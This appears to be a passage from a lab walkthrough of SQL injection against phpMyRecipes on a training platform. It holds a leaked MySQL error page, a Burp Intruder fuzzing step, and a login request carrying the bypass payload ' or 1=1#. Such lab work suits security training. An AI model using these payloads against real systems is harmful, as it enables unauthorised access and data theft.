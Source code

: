 ```http
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - dosearch.php<LI>Reason - Cannot select recipe lines by instructions/name<LI>Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' IN BOOLEAN MODE) ORDER BY name' at line 1</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

`burpsuite` > `Intruder` > `Payloads` = `Payload Options: Load: ~/tools/SecLists/Fuzzing/Databases/MySQL.fuzzdb.txt` > `Start attack`

`HTTP Request`:
```http
POST /login.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=" or 1=1#&password=TEST📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 16:12:22 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2490

<html>
```